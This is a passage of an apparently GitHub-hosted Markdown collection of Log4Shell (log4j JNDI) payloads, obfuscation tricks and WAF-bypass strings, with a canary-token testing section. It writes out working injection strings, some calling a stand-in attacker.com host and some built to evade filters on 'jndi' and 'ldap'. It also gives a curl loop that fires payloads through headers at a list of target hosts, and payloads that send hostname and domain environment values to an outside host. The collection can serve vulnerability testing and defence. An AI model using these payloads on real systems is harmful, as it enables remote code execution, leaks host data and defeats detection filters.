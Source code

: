 ## Payloads / Obfuscation / WAF Bypass

| URL | Info |
| --- | --- |
| https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39 | log4j payloads |
| https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a | log4j-keywords |

#### Social Media Payload Responses

If you're filtering on "ldap", "jndi", or the ${lower:x} method, I have bad news for you:

```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}
```

// attacker.com/a} This gets past every filter I've found so far. There's no shortage of these bypasses.

Source: https://twitter.com/Rezn0k/status/1469523006015750146?s=09

---

There may be many ways to avoid detection :(

```
jn${env::-}di: jn${date:}di${date:':'} j${k8s:k5:-ND}i${sd:k5:-:} j${main:\k5:-Nd}i${spring:k5:-:} j${sys:k5:-nD}${lower:i${web:k5:-:}} j${::-nD}i${::-:} j${EnV:K5:-nD}i: j${loWer:Nd}i${uPper::}
```

Source: https://twitter.com/ymzkei5/status/1469765165348704256?s=09

---

1. `${jndi:ldap://127.0.0.1:1389/ badClassName}`
2. `${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}`
3. `${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}`
4. `${jndi:rmi://adsasd.asdasd.asdasd}`

Source: https://twitter.com/ymzkei5/status/1469765165348704256?s=09

#### Canary Token Testing

| URL | Info |
| --- | --- |
| https://twitter.com/thinkstcanary/status/1469439743905697797?s=21 | Twitter - Thinkst Canary Advisory |

```
cat targets.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}" -H "X-Api-Version: ${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}" -H "User-Agent: ${jndi:[ldap://TOKEN.canarytokens.com/a](ldap://TOKEN.canarytokens.com/a)}";done
```

```
${jndi:ldap://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}..[L4J.TOKEN.canarytokens.com/a](http://l4j.TOKEN.canarytokens.com/a)}  
test+(${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.[L4J.TOKEN.canarytokens.com/a})@foobar.com](http://l4j.TOKEN.canarytokens.com/a%7D)@foobar.com)
```

RFC conform Email Payload:

```
test+(${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.L4J.TOKEN.canarytokens.com/a})@foobar.com
```

Triggering the Canary Token by using User-Agent Switcher:

URL: https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/

Payload: `${jndi:ldap://TOKEN.canarytokens.com/a}`

Fire in the hole aka start browsing the web!
